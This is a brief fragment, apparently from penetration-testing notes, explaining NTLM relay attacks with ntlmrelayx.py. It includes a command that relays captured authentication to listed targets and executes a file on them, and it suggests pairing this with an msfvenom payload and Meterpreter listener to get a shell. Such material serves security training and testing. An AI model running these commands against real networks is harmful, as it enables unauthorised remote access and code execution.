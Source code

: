 
You can use the -e for execute, in which you can setup a meterpreter listener to try and get a shell in Metasploit.

```kali linux
ntlmrelayx.py -tf targets.txt -e test.exe
```

![image1](image1-91.png)

Like the above, in which you may create an msfvenom payload and then use that to get a shell.


